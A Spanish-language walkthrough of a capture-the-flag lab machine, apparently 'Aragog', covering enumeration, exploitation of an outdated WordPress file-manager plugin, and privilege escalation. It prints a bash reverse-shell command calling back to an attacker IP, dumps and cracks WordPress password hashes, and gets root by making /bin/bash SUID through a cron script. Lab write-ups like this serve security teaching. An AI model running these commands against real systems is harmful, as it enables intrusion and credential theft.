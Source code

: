 ### Tags `wordpress` `pspy` `mysql`

# Reconocimiento (**LINUX**)

Lo primero que hacemos es un **escaneo de equipos** que estén conectados ami red de esta forma:

```ruby
arp-scan -I eth0 --localnet
```

![image](https://github.com/user-attachments/assets/e7813e89-48e9-445d-8b64-0387667f2680)

# Escaneo (**22, 80**)

```css
sudo nmap -p22,80 -sCV <IP> -oN escaneo
```

![image](https://github.com/user-attachments/assets/314358fb-f288-4e35-8ea0-38811821cb24)

# Port 80

Esta es al web que tiene una imagen, nos *descargamos la imagen* para ver si había algo de estenografía pero no.

![image](https://github.com/user-attachments/assets/8eadce0a-cef0-4652-a331-e54244cb87f8)

## Gobuster

Enumeramos directorios y encontramos `/blog`

```ruby
gobuster dir -u http://<IP>  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html 
```

![image](https://github.com/user-attachments/assets/5815384e-fd30-4e1c-8d38-f9b45a30954e)

Entramos y nos encontramos con un **wordpress**, y un dominio `href="http://wordpress.aragog.hogwarts` que lo agregamos al **/etc/hosts** (también agregar `aragog.hogwarts`) 

![image](https://github.com/user-attachments/assets/fd35b325-7831-49f2-8b91-a62e39670d34)


Jugando otra con Gobuster encontramos este `wp-login.php` que por defecto tienen todos los wordpress

```ruby
 gobuster dir -u http://wordpress.aragog.hogwarts/blog/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
```

![image](https://github.com/user-attachments/assets/4a3f9a48-e7ec-4790-99a0-c256394e8b11)

# Wpscan

Ahora lo que hacemos es que como tenemos un **CMS wordpress**., jugamos con la herramienta `wpsacn` para que nos enumere plugins de manera agresiva

```ruby
wpscan --url http://wordpress.aragog.hogwarts/blog/ --plugins-detection aggressive 
```

Nos ha encontrado 2 el `akismet` que suele estar en todos los wordpress y también nos encontró el `wp-file-manager` 

![image](https://github.com/user-attachments/assets/1182f715-8b8f-4220-9334-4322b270936b)

Si observamos bien ahí nos dice que la última versión del plugin es la `8.0` y que la máquina tiene la `6.0` por ende esta desactualizada

![image](https://github.com/user-attachments/assets/1111ad3b-5ed6-4285-a2eb-505243ee77a2)

Lo que hacemos es buscar por Google y encontramos este [Exploit](https://www.exploit-db.com/exploits/51224) y lo que hacemos es descargárnoslo y poner: 

```ruby
python3 ./51224.py http://wordpress.aragog.hogwarts/blog id 
```

![image](https://github.com/user-attachments/assets/94b82743-e5c8-49ca-b8df-b5f83abbcb3a)

Ahora nos mandamos una Reverse-Shell de esta forma:

```ruby
python3 ./51224.py http://wordpress.aragog.hogwarts/blog/ "bash -c 'bash -i >& /dev/tcp/192.168.0.159/443 0>&1'"
```

![image](https://github.com/user-attachments/assets/add8197b-fd57-4e18-a55e-0e06f254e369)

Hacemos el tratamiento de la `TTY`

```ruby
script /dev/null -c bash
Ctrl + z
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 42 columns 189
```

# Escalada (``hagrid98``)

Tenemos la primera flag

![image](https://github.com/user-attachments/assets/9e28c6e5-146c-47e0-9471-8d87a4bbb6e8)


### Mysql

Enumerando encontramos credenciales en `/etc/wordpress/` para la base de datos ---> `root:mySecr3tPass`

![image](https://github.com/user-attachments/assets/828bf7da-aad8-4e1c-9621-a8607fe2568c)

Entramos dentro poniendo

```css
mysql -u root -p
```

 - Comandos:
	- `show databses` : listamos las bases de datos existentes
	- `use wordpress` : para meternos dentro de la base de datos Wordpress
	- `show tables` : para que lista las tablas dentro de esa base de datos


![image](https://github.com/user-attachments/assets/29c5b66e-7d61-44c0-9178-4ab8f712fe7e)

- Una ves nos listó las tablas queremos:
	- `describe wp_users` : que me describa que tipo de tabla es, que campos contiene, que son , etc
	- `select user_login,user_pass from wp_users` : para que me dumpee todo dentro de esos parámetros de la tabla seleccionada


![image](https://github.com/user-attachments/assets/3a4085fb-0fed-4488-8376-36e5d7035e0c)

### John The Ripper

Nos copiamos el hash para romperlo y obtener la contraseña en texto plano

```ruby
nano hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash 
```

![image](https://github.com/user-attachments/assets/c52d8937-c1a6-43ba-ac56-827a49dc1816)
![image](https://github.com/user-attachments/assets/994c75c9-06c1-412b-8ea1-de25797a2f5c)

# Escalada ``ROOT``

- Lo que hacemos es jugar con [Pspy64](https://github.com/DominicBreuker/pspy/releases) para que nos reporte todas la tareas que se están ejecutando por detrás.
	- Nos lo descargamos, le damos permisos y lo transferimos a la máquina víctima

![image](https://github.com/user-attachments/assets/40a61ed7-2fb4-4c34-8d9a-edac7e2fc13e)
![image](https://github.com/user-attachments/assets/1289edc5-55d0-4ab8-97e5-4d07aded8bde)

Lo ejecutamos así:

```css
./pspy64
```

Y observamos esto:

![image](https://github.com/user-attachments/assets/e9ed9d20-11cd-4ea1-8d3c-28fe5baf1794)

Como es una tarea  que la esta ejecutando root  y hace un `/bin/bash` hacemos lo siguiente

![image](https://github.com/user-attachments/assets/0cba1633-46b0-4116-b09e-c6cdcd8a793e)

Como vimos que éramos los **propietarios de ese script** lo que hicimos es convertir en ``SUID`` la bash:

```ruby
nano .backup.sh
chmod u+s /bin/bash
```

![image](https://github.com/user-attachments/assets/cc953029-b7d6-4eee-9fe0-074ae219af9f)

Y tenemos la última flag siendo `root`

![image](https://github.com/user-attachments/assets/b62dafd5-83c1-4c19-985c-3af91aacc326)





